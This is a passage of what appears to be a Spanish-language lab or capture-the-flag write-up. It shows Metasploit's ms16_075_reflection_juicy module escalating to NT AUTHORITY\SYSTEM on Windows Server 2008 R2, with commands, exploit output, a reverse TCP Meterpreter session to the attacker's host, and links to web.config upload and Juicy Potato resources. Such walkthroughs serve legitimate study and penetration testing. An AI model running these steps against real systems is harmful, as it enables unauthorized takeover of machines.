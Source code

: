 <h3 id="JuicyMetas">Escalando Privilegios con Exploit ms16_075_reflection_juicy de Metasploit Framework</h3>

Vamos a usar este módulo y a configurarlo:
```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_075_reflection
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ms16_075_reflection_juicy) > set SESSION 2
SESSION => 2
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set CLSID {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
CLSID => {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

Y lo ejecutamos:
```bash
msf6 exploit(windows/local/ms16_075_reflection_juicy) > exploit

[*] Started reverse TCP handler on Tu_IP:4444 
[+] Target appears to be vulnerable (Windows 2008 R2)
[*] Launching notepad to host the exploit...
[+] Process 128 launched.
[*] Reflectively injecting the exploit DLL into 128...
[*] Injecting exploit into 128...
[*] Exploit injected. Injecting exploit configuration into 128...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.010
[*] Meterpreter session 3 opened (Tu_IP:4444 -> 192.168.1.010:49173) at 2024-12-02 22:20:04 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-4QU3QNHNK7E
OS              : Windows Server 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : es_ES
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
Excelente, hemos escalado privilegios con un módulo de **metasploit**.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/File-Extensions-Wordlist.txt
* https://jaykiee.medium.com/rce-by-uploading-a-web-config-7390e140a45b
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-.config-files
* https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config
* https://github.com/ohpe/juicy-potato
* https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato
